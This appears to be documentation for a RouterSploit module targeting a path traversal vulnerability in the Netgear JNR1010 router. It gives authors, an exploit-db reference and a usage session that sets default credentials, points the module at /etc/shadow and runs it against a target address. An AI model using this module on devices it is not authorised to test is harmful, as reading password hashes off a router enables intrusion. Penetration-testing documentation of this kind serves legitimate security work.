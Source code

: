 # Netgear JNR1010 Path Traversal

## Description
Module exploits Netgear JNR1010 Path Traversal vulnerability which allows to read any file on the system.

## Authors
* Todor Donev <todor.donev[at]gmail.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/40736/](https://www.exploit-db.com/exploits/40736/)

## Vulnerable devices
* Netgear JNR1010

## Usage
```
rsf > use exploits/netgear/jnr1010_path_traversal
rsf (Netgear JNR1010 Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     admin                Username to log in
   password     password             Password to log in
   filename     /etc/shadow          File to read


rsf (Netgear JNR1010 Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Netgear JNR1010 Path Traversal) > run
[*] Running module...
```
